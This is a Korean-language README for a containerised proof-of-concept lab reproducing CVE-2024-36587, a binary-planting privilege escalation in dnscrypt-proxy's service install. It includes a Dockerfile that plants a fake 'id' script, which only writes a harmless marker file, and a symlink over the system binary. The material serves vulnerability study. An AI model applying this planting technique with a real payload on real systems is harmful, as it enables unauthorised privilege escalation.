

# CVE-2024-36587 - dnscrypt-proxy Local Privilege Escalation

## 개요

- **취약점 설명**: dnscrypt-proxy 서비스 설치 시 현재 디렉토리의 실행 파일을 신뢰하여 등록하는 문제로 인해, 악성 바이너리를 삽입해 권한 상승이 가능하다.
- **취약 버전**: dnscrypt-proxy v2.0.0-alpha9 ~ v2.1.5
- **PoC 방법**: 바이너리 플랜팅 (binary planting)

## 환경 구성

```bash
docker compose up --build
```

빌드 및 실행이 완료되면 컨테이너가 생성된다.

컨테이너 내부로 접속:

```bash
docker run -it --privileged dnscrypt-poc-poc bash
```

## 취약점 트리거

컨테이너 안에서:

```bash
/tmp/id
cat /tmp/poc_was_here
```

`Pwned_from_Docker`가 출력되면 PoC 성공.

## 구성 파일

### Dockerfile

```dockerfile
FROM ubuntu:24.04

RUN apt-get update && apt-get install -y \
    git \
    golang-go \
    sudo

WORKDIR /workspace

RUN git clone https://github.com/DNSCrypt/dnscrypt-proxy.git && \
    cd dnscrypt-proxy && \
    git checkout tags/2.1.0 && \
    go build -o proxy ./dnscrypt-proxy

RUN bash -c 'echo -e "#!/bin/bash\necho Pwned_from_Docker > /tmp/poc_was_here" > /tmp/id' && \
    chmod +x /tmp/id && \
    ln -sf /tmp/id /usr/local/bin/id

CMD ["./dnscrypt-proxy/proxy", "-service", "install"]
```

### docker-compose.yaml

```yaml
version: "3.8"

services:
  poc:
    build: .
    container_name: dnscrypt-poc
    privileged: true
    tty: true
```

## 참고

- https://github.com/DNSCrypt/dnscrypt-proxy
- https://nvd.nist.gov/vuln/detail/CVE-2024-36587

## 실습 결과 스크린샷




## 자세한 보고서

보다 자세한 분석 및 실습 결과는 다음 PDF 문서를 참고하면 된다:

[PoC_Report_CVE-2024-36587.pdf](./PoC_Report_CVE-2024-36587.pdf)

